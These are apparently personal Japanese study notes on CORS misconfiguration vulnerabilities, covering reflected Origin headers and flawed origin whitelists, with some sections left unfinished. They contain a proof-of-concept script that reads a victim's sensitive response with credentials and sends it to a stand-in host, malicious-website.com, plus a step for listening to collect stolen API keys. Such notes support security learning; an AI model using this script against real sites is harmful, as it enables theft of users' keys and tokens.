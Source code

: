 ## 前提知識
### クロスオリジンリソース共有とは？
- 特定のドメインのリソースにアクセスさせるための機能。
- 同一ドメインポリシーの拡張機能的役割。

## 攻撃概要の説明
### 1. **クライアントが指定したOriginヘッダーからサーバが生成したACAOヘッダー**
- リクエストからOriginヘッダーを読取り、レスポンスが許可されていることを示すレスポンスヘッダーを含める。
	↓リクエスト
	```
	GET /sensitive-victim-data HTTP/1.1
	Host: vulnerable-website.com
	Origin: https://malicious-website.com
	Cookie: sessionid=...
	```
	↓レスポンス
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: https://malicious-website.com // ←アクセスが許可されたことを示す。
	Access-Control-Allow-Credentials: true // ←クッキーを含めることを許可している。
	...
	```

- 以下のスクリプトをWebサイトに配置することで、レスポンスに含まれるAPIキーだったり、CSRFトークンだったりが盗める。
```html
<html>
	<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); /** ←ターゲットサーバのURLとAPIキーなどが生成されている箇所を入力。 **/
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
		location='//malicious-website.com/log?key='+this.responseText;
	}; // ← APIを受け取る先を指定する。
	</script>
</html>
```

## 2. Originヘッダーの解析エラー
- 別ドメインのアクセスを許可する設定として、ホワイトリストを使用することで制限を掛けることができる。
- 指定されたオリジンがホワイトリストにある場合、`Access-Control-Allow-Origin`ヘッダーに反映され、アクセスが許可される。
↓リクエスト
```
	GET /data HTTP/1.1
	Host: normal-website.com
	...
	Origin: https://innocent-website.com
```
↓レスポンス
```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```
- CORSオリジンホワイトリストの実装では、ミスが起こる場合がある。
	- 例：
		- すべてのサブドメインを許可している。(将来的に取得するであろうドメインも含めて)
		- 


---
## 攻撃の説明
### 基本的なオリジンリフレクションによるCORSの脆弱性

1. リクエストヘッダーに`Origin: http://hoge.com/`を追加して、`Access-Control-Allow-Origin:`と`Access-Control-Allow-Credentials: true`がレスポンスにあるかを確認。
	![[Pasted image 20251004184839.png]]
2. XSSなどと組み合わせて、被害者が自分が仕込んだOriginヘッダーを含んだリクエストを送信するように仕向ける。
	- 例：
3. `python -m http.server`を起動しリッスン、APIキーを受け取る。
---
